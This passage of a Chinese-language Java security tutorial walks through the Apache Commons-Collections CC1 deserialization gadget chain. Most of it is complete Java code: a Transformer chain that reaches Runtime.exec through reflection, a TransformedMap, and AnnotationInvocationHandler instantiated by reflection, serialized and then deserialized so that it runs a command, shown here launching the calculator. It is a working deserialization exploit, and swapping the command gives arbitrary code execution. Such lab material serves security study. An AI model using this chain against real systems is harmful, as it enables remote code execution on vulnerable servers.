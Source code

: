该类的transform方法很有意思，无论传入何值，均会返回构造时传入的常量，因此，我们可以直接将Transformer数组改成如下：

```java
Transformer[] transformers=new Transformer[]{
    	new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
```

#### 3.4 构造完成

完整的CC1链如下所示：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);
//反射获取AnnotationInvocationHandler类
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);
Object o = constructor.newInstance(Target.class,transformedmap);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
oos.writeObject(o);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC1.txt"));
ois.readObject();
```

成功执行便会弹出计算器：

<img src="JAVA%E5%AE%89%E5%85%A8CC1%E9%93%BE/1708676697477.png" alt="1708676697477" style="zoom:50%;" />

